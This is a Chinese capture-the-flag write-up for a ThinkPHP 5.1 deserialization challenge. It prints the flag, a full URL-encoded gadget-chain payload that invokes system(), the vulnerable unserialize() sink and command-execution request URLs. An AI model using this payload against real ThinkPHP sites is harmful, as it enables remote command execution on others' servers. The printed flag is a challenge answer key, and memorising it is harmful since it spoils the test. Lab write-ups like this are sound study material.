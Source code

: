 ```yaml
---
Author: SuperJason
Date: 2020-12-29
---
```


## flag
`n1book{de70641304640057390e8fabc8b515bf}`

## 前言
这道题目的环境是有问题的，我不知道是BUUCTF上的环境问题，还是说Nu1l官方的docker环境有问题。提供的源代码与环境自身的源代码不一致，导致浪费了很多时间，并且官方给的exp和wp无法对应，对于没有做过tp利用链的人来说门槛较高，还需要自己去debug，不过确实学到了很多，下面开始WP。
## 思路
1. 访问环境时提示下载源代码`www.zip`   
   ![](./images/phpunser-5.png) 
2. 下载源代码后解压缩，通过阅读readme.md发现是thinkphp 5.1版本，网上搜索后，得到[利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php)，只需执行`php thinkphp_5.1_exp.php`，便可以得到payload。关于利用链的构造网上很多大神分析了，可以看[Thinkphp 5.1 反序列化利用链深入分析]，我就不分析了，重点讲下做题。(https://paper.seebug.org/1040/)  
   ```
   payload内容如下：
   O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A1%3A%22a%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A13%3A%22think%5CRequest%22%3A3%3A%7Bs%3A7%3A%22%00%2A%00hook%22%3Ba%3A1%3A%7Bs%3A7%3A%22visible%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A8%3Bi%3A1%3Bs%3A6%3A%22isAjax%22%3B%7D%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3Bs%3A9%3A%22%00%2A%00config%22%3Ba%3A1%3A%7Bs%3A8%3A%22var_ajax%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7D%7D%7D
   ``` 
3. 这里分析一下thinkphp的2个主要文件，然后分析一下[利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php) 
   1. application\index\controller\index.php文件,只有请求被hello解析时，才能通过构造POST请求将payload赋值给str，实现反序列化利用。
      ```php
      <?php
      namespace app\index\controller;

      class Index
      {
         public function index()
         {
            return "<a href='www.zip'>download code</a>";
         }

         public function hello()
         {
            unserialize($_POST['str']);
         }
      }
      ```
   2. route\route.php文件，压缩包源代码与实际BUUCTF服务器代码不一样。本人先在本地phpstudy搭建环境获得命令执行权限后，服务器相同url却不能获得权限，后来证实原因是路由代码不一致。
     - 压缩包代码如下
         ```php
         <?php
         Route::get('think', function () {
            return 'hello,ThinkPHP5!';
         });
         Route::get('hello/:name', 'index/hello');
         return [
         ];
         ```
      - BUUCTF服务器代码
         ```php
         if (is_file($_SERVER["DOCUMENT_ROOT"] . $_SERVER["SCRIPT_NAME"])) 
         { return false; } 
         else
         { require __DIR__ . "/index.php"; } 
         ```
   3. [利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php)前几行内容如下，其中`a`参数用来承载实际执行的命令。
      ```php
      <?php
      namespace think;
      abstract class Model{
         protected $append = [];
         private $data = [];
         function __construct(){
            $this->append = ["a"=>[""]]; 
            $this->data = ["a"=>new Request()];
         }
      }
      ```
4. 本机phpstudy环境下，根据源代码构造了两种url请求，以whoami为例子。第一个请求路由为*application\index\controller\index.php文件*->*Index类*->*hello()方法*，第二个请求利用了thinkphp的[兼容模式url](https://m.php.cn/phpkj/thinkphp/448480.html)
- `http://{your_server}/public/index.php/index/Index/hello?a=whoami`
- `http://{your_server}/public/index.php?s=index/index/hello&a=whoami`
  ![](./images/phpunser-1.png)  
  ![](./images/phpunser-2.png)
5. 介绍完本机命令执行，再来介绍BUUCTF命令执行。服务器只能用第二种请求，构造参数`a=cd /;ls`和`a=cd /;cat FLAG`，`str`的值为1中payload，通过`hackbar`或`burpsuite`发包。   
   ![](./images/phpunser-3.png) 
   ![](./images/phpunser-4.png) 
## 总结  
thinkphp 5.1的反序列化漏洞，由于thinkphp 5.1还存在RCE漏洞(漏洞触发条件是默认路由情况下，可以导致RCE)，所以这道题源代码的route.php修改了默认路由，不能直接通过RCE执行命令，只能按着出题人思路用php反序列化。  
难点如下
- 找到利用点，application\index\controller\index.php文件的hello函数
- 构造正确的路由，不清楚tp路由的话，很难构造正确的路由，正确构造`a`的值，post上传`str`的payload
- thinkphp5.1 php反序列化利用链